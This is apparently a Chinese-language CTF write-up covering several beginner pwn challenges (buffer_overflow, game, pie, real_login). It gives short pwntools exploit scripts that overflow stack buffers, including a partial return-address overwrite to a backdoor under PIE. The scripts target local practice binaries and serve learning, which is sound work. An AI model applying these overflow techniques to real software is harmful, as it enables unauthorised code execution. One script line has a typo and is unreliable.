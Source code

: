 # buffer_overflow

![[Pasted image 20250115091055.png]]
反编译后可以看出当`local_62`与`ans`中的内容一样是就可以获取`flag`。
![[Pasted image 20250115091300.png]]
可以看到ans的内容
![[Pasted image 20250115091337.png]]
打开gdb调试可以看到`local_62`内内容的位置，构造`payload`将其覆盖为`ans`内容即可。
exp:
```python
from pwn import *

  

local = True

if local:

p = process("./buffer_overflow")

pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

payload = b'a' * 0x46 + b'Limiter and Wings are beautiful girls!'

p.send(payload)

p.interactive()
```
flag:
![[Pasted image 20250115091529.png]]
# game

![[Pasted image 20250115092751.png]]
反编译后可以看出当local_14累加到999后就可以获取shell。
exp:
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./game")

# pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

num = 0

# p.recvuntil(b"Let's paly a game!")

while num<=999:

p.sendlineafter(b'pls input you num:', b'9')

num += 9

p.interactive()
```
flag:
![[Pasted image 20250115092855.png]]
# pie
开启了pie保护
![[Pasted image 20250115100232.png]]![[Pasted image 20250115100243.png]]
栈溢出仅能覆盖返回地址的一位，显然是将其覆盖为backdoor。
exp：
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./pie")

# pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

pwnlib.gdb,attach(p)

payload = b'a' * 0x28 + b'd'

p.sendline(payload)

p.interactive()
```
shell:
![[Pasted image 20250115100413.png]]
# real_login
![[Pasted image 20250115100541.png]]
当输入为password时获取shell
![[Pasted image 20250115100606.png]]
password如上
shell：
![[Pasted image 20250115100635.png]]
# ret2text

# shop
运行后发现是一个简单的商店程序。
反编译后发现程序都没有明显的漏洞。


